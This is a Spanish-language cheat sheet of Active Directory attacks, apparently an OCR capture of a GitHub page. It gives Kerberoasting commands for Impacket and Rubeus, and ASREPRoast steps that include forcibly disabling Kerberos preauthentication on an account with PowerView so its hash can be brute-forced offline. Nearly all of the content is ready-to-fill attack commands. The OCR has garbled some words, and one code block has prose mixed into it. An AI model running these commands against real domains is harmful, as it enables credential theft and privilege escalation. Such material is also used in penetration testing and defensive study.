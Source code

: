 - Impacket:

```powershell
python GetUserSPNs.py <DomainName>/<DomainUser>:<Password> -outputfile <FileName>
```

- Rubeus:

```powershell
#Kerberoast y salida en un archivo con un formato específico
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName>

#Kerberoast con seguridad "OPSEC", sin intentar asar cuentas con AES habilitado
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /rc4opsec

#Cuentas con AES habilitado para Kerberoast
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /aes

#Cuenta de usuario específica de Kerberoast
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /user:<username> /simple

#Kerberoast especificando las credenciales de autenticación
Rubeus.exe kerberoast /outfile:<nombre_archivo> /domain:<nombre_dominio> /creduser:<nombre_usuario> /credpassword:<contraseña>
```

### ASREPRoast

_¿QUÉ ES DIS?:_ \
Si una cuenta de usuario de dominio no requiere preautenticación Kerberos, podemos solicitar un TGT válido para esta cuenta sin siquiera tener credenciales de dominio, extraer el blob cifrado y ejecutarlo por fuerza bruta sin conexión.

- PowerView: `Get-DomainUser -PreauthNotRequired -Verbose`
- Módulo AD: `Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth`

¡Desactivar forzosamente la preautenticación Kerberos en una cuenta con permisos de escritura o superiores!
Comprobar permisos interesantes en las cuentas:

**Sugerencia:** Añadimos un filtro, por ejemplo Los usuarios de RDPU obtendrán "Cuentas de usuario", no Cuentas de máquina, ya que los hashes de las Cuentas de máquina no se pueden descifrar.

PowerView:

```powershell
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
Desactivar la preautorización de Kerberos:
Set-DomainObject -Identity <UserAccount> -XOR @{useraccountcontrol=4194304} -Verbose
Comprobar si el valor ha cambiado:
Get-DomainUser -PreauthNotRequired -Verbose
```

- Y finalmente, ejecutar

Ataque con la herramienta [ASREPRoast](https://github.com/HarmJ0y/ASREPRoast).
